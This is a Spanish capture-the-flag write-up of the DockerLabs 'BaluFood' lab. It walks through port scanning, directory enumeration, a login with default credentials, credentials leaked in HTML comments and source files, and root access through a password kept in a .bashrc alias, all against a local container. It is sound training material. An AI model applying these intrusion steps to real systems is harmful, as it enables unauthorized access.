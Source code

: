 ```yaml
---
title: BaluFood
description: Página web de un restaurante con data leakage y escalada de privilegios en linux con user pivoting.
date: 2025-04-29
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-balufood/balufood_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - tcp
  - ssh
  - upnp
  - data leaks
  - misconfigurations
  - information gathering
  - web analysis
  - data leak exploitation
  - user pivoting
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/balufood:-$ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.089 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.089/0.089/0.089/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/balufood:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.2 -n -Pn -oG nmap1
Host: 172.17.0.2 ()     Status: Up
Host: 172.17.0.2 ()     Ports: 22/open/tcp//ssh///, 5000/open/tcp//upnp///      Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/balufood:-$ sudo nmap -sCV -p22,5000 -vvv 172.17.0.2 -oN nmap2
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 69:15:7d:34:74:1c:21:8a:cb:2c:a2:8c:42:a4:21:7f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD/+EOmj2PkB3JiPRNvx8CBhMsLP+MZtPK9LPbNWEGIA7AlkNX0go0NBQ5Ad0e7UCOnXW9knwgnOomFJDsLo/1o=
|   256 a7:3a:c9:b2:ac:cf:44:77:a7:9c:ab:89:98:c7:88:3f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL/Vvyg3NC9pIeabLUubEq3XuRQVxIIzh2sSxVeJjM57
5000/tcp open  http    syn-ack ttl 64 Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-title: Restaurante Balulero - Inicio
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```terminal
/home/kali/Documents/dockerlabs/balufood:-$ whatweb 172.17.0.2:5000
http://172.17.0.2:5000 [200 OK] Bootstrap, Country[RESERVED][ZZ], Frame, HTML5, HTTPServer[Werkzeug/2.2.2 Python/3.11.2], IP[172.17.0.2], Python[3.11.2], Script, Title[Restaurante Balulero - Inicio], Werkzeug[2.2.2]
```

---
## Web Analysis & Data Leak Exploitation

El servicio web inicial presenta una interfaz simple con funcionalidades básicas visibles.

![](assets/img/dockerlabs-writeup-balufood/balufood1_1.png)

```terminal
/home/kali/Documents/dockerlabs/balufood:-$ dirb http://172.17.0.2:5000/
---- Scanning URL: http://172.17.0.2:5000/ ----
+ http://172.17.0.2:5000/admin (CODE:302|SIZE:199)
+ http://172.17.0.2:5000/console (CODE:400|SIZE:167)
+ http://172.17.0.2:5000/login (CODE:200|SIZE:1850)
+ http://172.17.0.2:5000/logout (CODE:302|SIZE:189)
```

Pruebo autenticarme en `/login` con credenciales comunes y el par `admin`:`admin` permite acceder exitosamente al panel `/admin`.

![](assets/img/dockerlabs-writeup-balufood/balufood1_2.png)
![](assets/img/dockerlabs-writeup-balufood/balufood1_3.png)

Analizando el código fuente del panel `/admin`, identifico credenciales comentadas, `sysadmin`:`backup123`.

![](assets/img/dockerlabs-writeup-balufood/balufood1_4.png)

Estas credenciales permiten acceso por ssh como el usuario `sysadmin`.

```terminal
/home/kali/Documents/dockerlabs/balufood:-$ ssh sysadmin@172.17.0.2 
sysadmin@172.17.0.2's password: backup123
```

```terminal
sysadmin@6fa083db4c91:~$ id
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),100(users)
```

---
## User Pivoting

```terminal
sysadmin@6fa083db4c91:~$ grep 'sh$' /etc/passwd
root:x:0:0:root:/root:/bin/bash
sysadmin:x:1000:1000:sysadmin,sysadmin,,:/home/sysadmin:/bin/bash
balulero:x:1001:1001:balulero,,,:/home/balulero:/bin/bash
```

En el directorio `/home/sysadmin` se encuentra un archivo llamado `app.py`, que contiene una cadena que podría tratarse de una contraseña.

```terminal
sysadmin@6fa083db4c91:~$ head app.py
```

![](assets/img/dockerlabs-writeup-balufood/balufood1_5.png)

La cadena se utiliza como contraseña del usuario `balulero` y permite autenticarse exitosamente.

```terminal
sysadmin@6fa083db4c91:~$ su balulero
Password: cuidaditocuidadin
```
```terminal
balulero@6fa083db4c91:/home$ id
uid=1001(balulero) gid=1001(balulero) groups=1001(balulero),100(users)
```

---
## Privilege Escalation

Dentro del archivo `.bashrc` del usuario `balulero`, aparece definido un alias que permite ejecutar `su - root` utilizando una contraseña.

```terminal
balulero@6fa083db4c91:~$ tail -n1 .bashrc
alias ser-root='echo chocolate2 | su - root'
```

La cadena `chocolate2` corresponde a la contraseña del usuario `root`. De esta forma, la utilizo directamente para obtener una shell privilegiada.

```terminal
balulero@6fa083db4c91:~$ su root
Password: chocolate2

root@6fa083db4c91:/home/balulero# id
uid=0(root) gid=0(root) groups=0(root)
```